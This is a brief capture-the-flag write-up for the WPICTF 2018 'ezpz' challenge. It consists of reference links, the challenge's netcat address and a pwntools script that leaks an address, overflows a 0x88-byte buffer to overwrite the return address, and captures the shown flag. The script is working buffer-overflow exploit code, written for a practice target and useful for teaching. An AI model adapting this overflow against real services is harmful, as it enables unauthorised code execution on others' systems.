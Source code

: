 # Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

* https://github.com/wr47h/CTF-Writeups/tree/master/2018/WPICTF'18
* https://github.com/soolidsnake/Write-ups/blob/master/WPICTF/ezpz/exploit.py

# Title

[//]: <> (题目)

nc ezpz.wpictf.xyz 31337

redundant servers on 31338 and 31339

made by awg

file from https://drive.google.com/open?id=1RpTW-5_-pv6ShZEDBTAoIB_AiPkb8db9

# Content

[//]: <> (WriteUp内容)

```python
from pwn import *


r = remote('ezpz.wpictf.xyz', 31337)

msg = r.recvline()
print(msg)
address = int(msg.split(' ')[1], 16)  # 16 for hex
r.recvline()

buf  = 'A'*0x88
buf += p64(address)
r.sendline(buf)


r.interactive()
```

This gives the flag - WPI{3uffer_0verflows_r_ezpz_l3mon_5queazy}.
